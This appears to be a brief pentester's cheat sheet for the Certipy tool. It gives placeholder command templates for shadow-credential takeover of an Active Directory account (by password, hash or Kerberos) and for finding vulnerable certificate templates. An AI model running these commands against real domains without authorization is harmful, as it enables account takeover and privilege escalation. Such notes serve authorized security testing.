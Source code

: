 # certipy
#active-directory

## Shadow cred
```
certipy shadow auto -u '<user>'@<domain> -p '<passwd>' -account '<target_user>'
```

## Shadow cred [Hash]
```
certipy shadow auto -u '<user>'@<domain> -hashes '<hash>' -account '<target_user>'
```

## Shadow cred using kerberos
```
certipy shadow auto -u '<user>'@<domain> -p '<passwd>' -account '<target_user>' -k -target <target>
```

## Enumerate vulnerable certificate templates
```
certipy find -vulnerable -u '<user>'@<domain> -p '<passwd>' -dc-ip <ip> -stdout
```

## Enumerate enabled certificate templates
```
certipy find -enabled -u '<user>'@<domain> -p '<passwd>' -dc-ip <ip> -stdout
```
